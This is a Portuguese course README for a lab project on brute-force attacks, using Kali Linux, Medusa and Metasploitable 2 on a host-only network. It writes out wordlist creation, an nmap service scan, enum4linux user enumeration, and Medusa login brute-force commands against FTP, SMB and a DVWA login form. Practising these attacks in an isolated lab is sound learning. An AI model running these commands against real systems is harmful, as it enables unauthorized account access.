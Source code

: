 # Curso_Segurança
Projeto de Segurança: Ataques de Força Bruta com Kali Linux e Medusa
# Introdução
Este projeto foi desenvolvido como parte do curso da DIO, com o objetivo de explorar técnicas de ataques de força bruta em ambientes controlados, 
utilizando Kali Linux, Medusa e Metasploitable 2. O foco é aprender sobre segurança ofensiva e práticas de mitigação.

# Configuração do Ambiente
Ferramentas Utilizadas:
  VirtualBox 7.0
  Kali Linux 2025.1
  Metasploitable 2
Rede: Configurada como Host-Only (`192.168.56.0/24`).
  1. Instalação do VirtualBox e criação da rede host-only.
  2. Configuração das VMs Kali Linux e Metasploitable 2.
  3. Verificação de conectividade com `ping`.

##############################################################################

Feito as configuração do ambiente vamos  começar:

1) Vamos criar words list para senhas e usuários na mão para fim de testes,
mas no mundo real devemos usar words lista mais robustas que podemos encontar facilemnte na internet.

echo -e "admin\nadministrador\nuser\nmsfadmin\nguest" > users.txt
echo -e "password\nadmin\n123456\n12345678\nwelcome\nwelcome123\nmsfadmin\nqwerty123" > passwords.txt

** Observação coloca n para quebra linha vamos usar essas worlds lists para todos os testes
** Para ver as words lists criadas #lees users.txt e less passwords.txt 
 
3) Usar Nmap para listar portar abertas e versões dos sistemas
nmap -sV -p 21,22,139,443,445,80,8080 192.168.56.101
** O nmap tem vários parâmetros para ser explorados como rage de portas, IPs etc. 

4) Realização dos Ataques:

# Servidor FTP
medusa -h 192.168.56.101 -U users.txt -P passwords.txt -M ftp -t 6

# Servidor SMB
enum4linux -U 192.168.56.101 > users.txt ** Este comando enumera os usuários SMB pode ser usado para criar word list
medusa -h 192.168.56.101 -U users.txt -p password -M smbnt

# DVWA
medusa -h 192.168.56.101 -u admin -P passwords.txt -M http -m DIR:/dvwa -m FORM:login.php -m FORM-DATA:"post?username=^USER^&password=^PASS^&Login=Login"
** Devemos ver o funcionamento de cada formulário HTML para ajustar o ataque com a medusa, tem o print para melhor compreensão. 


    
